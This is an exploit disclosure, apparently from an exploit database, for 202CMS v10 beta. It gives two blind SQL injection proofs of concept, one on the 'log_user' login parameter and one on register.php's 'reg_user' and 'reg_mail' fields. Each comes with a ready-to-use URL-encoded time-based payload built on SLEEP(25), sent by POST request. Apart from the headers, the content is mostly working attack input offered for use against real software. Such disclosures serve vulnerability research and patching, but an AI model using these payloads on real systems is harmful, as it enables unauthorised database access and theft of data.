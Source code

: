 EXP
---

    ===========================================================================================
    # Exploit Title: 202CMS - 'log_user' SQL Inj.
    # Dork: N/A
    # Date: 20-03-2019
    # Exploit Author: Mehmet EMIROGLU
    # Vendor Homepage: https://sourceforge.net/projects/b202cms/
    # Software Link: https://sourceforge.net/projects/b202cms/
    # Version: v10 beta
    # Category: Webapps
    # Tested on: Wamp64, Windows
    # CVE: N/A
    # Software Description: 202CMS is small, but functionally CMS. It is based
    on Twitter Bootstrap
      This CMS was built by Konrad and is powered by MySQLi and PHP. 202CMS is
    highly customizable
      and extremely easy to setup. The script is not finished, but soon I'm
    going to finish it.
    ===========================================================================================
    # POC - SQLi (blind)
    # Parameters : log_user
    # Attack Pattern :
    1+%2b+((SELECT+1+FROM+(SELECT+SLEEP(25))A))%2f*%27XOR(((SELECT+1+FROM+(SELECT+SLEEP(25))A)))OR%27%7c%22XOR(((SELECT+1+FROM+(SELECT+SLEEP(25))A)))OR%22*%2f
    # POST Method : http://localhost/202cms10beta/index.php
    ===========================================================================================
    ###########################################################################################
    ===========================================================================================
    # Exploit Title: 202CMS - 'register.php' SQL Inj.
    # Dork: N/A
    # Date: 20-03-2019
    # Exploit Author: Mehmet EMIROGLU
    # Vendor Homepage: https://sourceforge.net/projects/b202cms/
    # Software Link: https://sourceforge.net/projects/b202cms/
    # Version: v10 beta
    # Category: Webapps
    # Tested on: Wamp64, Windows
    # CVE: N/A
    # Software Description: 202CMS is small, but functionally CMS. It is based
    on Twitter Bootstrap
      This CMS was built by Konrad and is powered by MySQLi and PHP. 202CMS is
    highly customizable
      and extremely easy to setup. The script is not finished, but soon I'm
    going to finish it.
    ===========================================================================================
    # POC - SQLi (blind)
    # Parameters : register.php, reg_user,reg_mail
    # Attack Pattern :
    1+%2b+((SELECT+1+FROM+(SELECT+SLEEP(25))A))%2f*%27XOR(((SELECT+1+FROM+(SELECT+SLEEP(25))A)))OR%27%7c%22XOR(((SELECT+1+FROM+(SELECT+SLEEP(25))A)))OR%22*%2f
    # Attack Pattern : %27%2b((SELECT+1+FROM+(SELECT+SLEEP(25))A))%2b%27
    # POST Method : http://localhost/202cms10beta/register.php
    ===========================================================================================
